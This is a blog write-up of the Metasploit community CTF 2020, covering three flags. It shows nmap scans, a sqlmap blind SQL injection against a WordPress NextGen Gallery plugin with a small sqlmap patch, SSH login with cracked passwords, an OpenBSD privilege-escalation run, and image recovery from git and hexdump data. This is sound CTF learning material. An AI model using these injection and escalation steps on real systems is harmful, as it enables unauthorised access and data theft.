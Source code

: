 Metasploit community CTF 2020 write up
######################################
:date: 2020-02-05
:author: Thomas Van Doren
:category: ctf
:tags: ctf, security
:slug: metasploit-2020-writeup

This past weekend I worked on the `Metasploit community CTF <https://blog.rapid7.com/2020/01/15/announcing-the-2020-metasploit-community-ctf/>`_ with the `CTF_Circle team <https://twitter.com/CTF_Circle>`_. As a group we finished 9th overall! The rest of this post includes a write up of three flags the team captured (out of the seven total). Capturing all three of these flags was a collaborative team effort, which is one of the highlights for me of working with CTF_Circle.

.. image:: /images/metasploit-2020-tweet.png
    :target: https://twitter.com/CTF_Circle/status/1224382463599767552
    :width: 75%
    :align: center

Background
----------

This CTF (`capture the flag <https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security>`_) provided teams with two EC2 instances: a Kali Linux jump box and a target box. The target box ran several services that hid PNG images of playing cards that were the flags. Exploiting vulnerabilites, or in some cases sniffing traffic, enabled us to find the flags. Once we found a flag, we submitted the md5 checksum to get points.

Queen of Hearts
---------------

Using nmap, we found that port 8000 on the target box was running a WordPress site about Giraffes::

    $ nmap -A target
    ...
    8000/tcp  open   http         Apache httpd 2.4.38 ((Debian))
    |_http-generator: WordPress 5.3.2
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Lovely Giraffes &#8211; Everything about giraffes&#8230;
    |_http-trane-info: Problem with XML parsing of /evox/about

The WordPress site has WP_SITEURL set to ``http://127.0.0.1:8000``, which meant that all the subresources (e.g. scripts, style sheets, images) did not load and that links were broken. Adding a rewrite rule in Burp Suite to rewrite these urls back to ``http://target:8000`` fixed the links.

Visiting the site showed a Giraffe gallery site. Poking around there was a single post with a comment that referenced the password.

::

    $ curl target:8000/?page_id=2 | grep comments
    ... target:8000/?feed=comments-rss2 ...
    $ curl target:8000/?feed=comments-rss2 | grep password # refers to melman
    > Hey! I forgot to say, your account &#8220;melman&#8221; is still valid with the the same password, your last name.

Googling melman leads to the Madagascar movie character: `Melman Mankiewicz III <https://en.wikipedia.org/wiki/List_of_Madagascar_(franchise)_characters#Melman>`_. So the WordPress username and password are: melman/mankiewicz. These can be used at ``http://target:8000/wp-admin`` to sign in. The melman user did not have permission to upload plugins. The Nextgen Gallery was installed, version 3.2.10, and it has a `blind SQL injection vulnerability <https://wpvulndb.com/vulnerabilities/9816>`_!

::

    $ curl target:8000/ | grep wp-content/plugins
    <link rel='stylesheet' id='nextgen_widgets_style-css'  href='http://127.0.0.1:8000/wp-content/plugins/nextgen-gallery/products/photocrati_nextgen/modules/widget/static/widgets.css?ver=3.2.10' type='text/css' media='all' />

Exploiting the SQLi vulnerability required creating a new post, attaching a nextgen gallery, and then sorting the images in the gallery, which triggered a POST request to the backend that has the SQLi vulnerability.

::

    POST /index.php?photocrati_ajax=1 HTTP/1.1
    ...
    Cookie: wordpress_test_cookie=WP+Cookie+check;...

    action=get_displayed_gallery_entities&limit=5000&offset=0&nonce=2900d93354&displayed_gallery%5Bsource%5D=galleries&displayed_gallery%5Bcontainer_ids%5D%5B%5D=2&displayed_gallery%5Bdisplay_type%5D=photocrati-nextgen_basic_thumbnails&displayed_gallery%5Bslug%5D=&displayed_gallery%5Border_by%5D=img&displayed_gallery%5Border_direction%5D=ASC&displayed_gallery%5Breturns%5D=included&displayed_gallery%5Bmaximum_entity_count%5D=500&displayed_gallery%5B__defaults_set%5D=true

The ``displayed_gallery%5Border_by%5D=img`` post parameter is exploitable as a `blind SQL injection <https://owasp.org/www-community/attacks/Blind_SQL_Injection>`_. Using `sqlmap <http://sqlmap.org/>`_ we can use the blind injection to find data in the database. We set ``displayed_gallery%5Border_by%5D=%INJECT HERE%`` in the request body given to sqlmap and otherwise copy+pasted the raw request from burp. This is the command we ran to enumerate databases (we know wordpress uses mysql) and tables in the database server.

::

    $ sqlmap -r req.txt --dbms=mysql --level=5 --risk=3 --dump --threads=10 --hex --technique=BEUQ --tamper=between,randomcase,space2comment --dbs --tables

That showed there was a database called ``flag_card`` (in addition to the ``wordpress`` database) with a table called ``card``. Using sqlmap we can dump that table, which showed that there was a value in the ``image`` column that was >90k long and it started calculating the value.

::

    sqlmap -r req.txt --dbms=mysql --level=5 --risk=3 --dump --threads=10 --hex --technique=BEUQ --tamper=between,randomcase,space2comment -D flag_card -T card

Using the blind SQLi it was calculating ~1 character/second, so this was going to take 25+ hours. That's when `echo had a brilliant suggestion <https://twitter.com/nemesis09/status/1224401072225161216>`_ to md5 the content in the database, then brute force the md5 sum since that is only 32 characters. We patched sqlmap to always wrap the image column in a MD5() call (please `tweet me <https://twitter.com/thomasvandoren>`_ if there is a better way to do this with sqlmap!)::

    diff --git a/lib/core/agent.py b/lib/core/agent.py
    index aad9db4b0..189262695 100644
    --- a/lib/core/agent.py
    +++ b/lib/core/agent.py
    @@ -595,6 +595,9 @@ class Agent(object):
            Note: used primarily in dumping of custom tables
            """
                                    
    +        if field == 'image':      
    +            return 'MD5(image)'   
    +                                  
            retVal = field            
            if conf.db and table and conf.db in table:                    
                table = table.split(conf.db)[-1].strip('.')               

Rerunning the sqlmap command with this patch, it finished very quickly and displayed the card name and md5, which we submitted!

::

    Database: flag_card
    Table: card
    [1 entry]
    +----+-----------------+----------------------------------+
    | id | name            | image                            |
    +----+-----------------+----------------------------------+
    | 1  | Queen of Hearts | 111b62aef6e0a5ea78fe7485fc9b3333 |
    +----+-----------------+----------------------------------+

7 of Diamonds
-------------

Capturing this flag started with capturing the `2 of Diamonds <http://tinkerfairy.net/2-of-diamonds.txt>`_ flag, which was a repeat from the 2018 Metasploit community CTF. We downloaded the /etc/passwd file from the target 4.3BSD/VAX system and then ran `John the Ripper <https://www.openwall.com/john/>`_ over it to get passwords. These passwords enabled us to SSH into port 22 on the target box::

    $ nmap -A target
    ...
    22/tcp    open   ssh          OpenSSH 8.1 (protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:88:8c:e3:81:67:0e:5c:84:2e:54:b8:8f:17:b4:48 (RSA)
    |   256 08:7a:50:9d:67:c9:25:20:89:07:85:98:c0:34:9c:9f (ECDSA)
    |_  256 ad:df:2c:68:bc:12:49:75:c6:d4:05:5c:f5:d2:6b:be (ED25519)

That was an OpenBSD 6.6 system. The ``ken`` user was in the wheel group and Ken's password is `Ken Thompson's Unix password <https://leahneukirchen.org/blog/archive/2019/10/ken-thompson-s-unix-password.html>`_. Signing in as Ken, we were able to exploit `a privilege escalation <https://www.openwall.com/lists/oss-security/2019/12/11/9>`_ to gain root access to the system (signing in as any user would have worked), and after some searching found a bare git repo at ``/root/hai``. There is also `a RCE in OpenSMTPd in this version of OpenBSD <https://www.openwall.com/lists/oss-security/2020/01/28/3>`_ that would have enabled root access.

::

    $ ssh ken@target # password: p/q2-q4!
    $ cd exp
    $ ./exp /usr/bin/chpass
    # cd /root
    # file hai
    hai: Git bundle

We copied that bare git repo back to the jump box and then were able to generate the 7 of Diamonds by concatenating the ``/whats-this`` file from: the master branch, then the nothing-to-see-here branch, and finally from a base64 encoded blob in a commit message in the nothing-to-see-here branch. Opening just the ``/whats-this`` this file from master only showed about half of the card, so this was a fun challenge to get the other pieces!

::

    $ git clone hai hai-clone
    $ cd hai-clone
    $ cat whats-this > 7-of-diamonds.png
    $ git branch -r
      origin/HEAD -> origin/master
      origin/master
      origin/nothing-to-see-here
    $ git checkout nothing-to-see-here
    $ cat whats-this >> 7-of-diamonds.png
    $ git log # then scroll through the log messages to find a base64 text wall
    $ git log --format=%B -n 1 7cadeef01e867da960cae432000796879b77f59a | base64 -d >> 7-of-diamonds.png
    $ md5sum 7-of-diamonds.png
    ca7c8f05fc082f0b2127dd0a40c80f21  7-of-diamonds.png

.. image:: /images/metasploit-2020-7-of-diamonds.png
    :alt: 7-of-diamonds.png

Ace of Spades
-------------

Another file we found while searching the OpenBSD system was ``/etc/flag``, which was ``hexdump -C`` output of a PNG file::

    $ head -1 /etc/flag
    00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
    ...

We copied that to kali as `etcflag` and then used this python code to remove everything except the hex.

.. code-block:: python

    with open('etcflag') as fp:
        with open('etcflag.just_hex', 'w') as fp2:
            for l in fp.readlines():
                fp2.write(l[10:58])
                fp2.write('\n')

Then we reversed the hex with xxd to get the original image and the flag!

::

    $ xxd -p -r etcflag.just_hex ace-of-spades.png
    $ md5sum ace-of-spades.png
    eb8166c746b9f66297174e9073ce0fea  ace-of-spades.png

.. image:: /images/metasploit-2020-ace-of-spades.png
    :alt: ace-of-spades.png
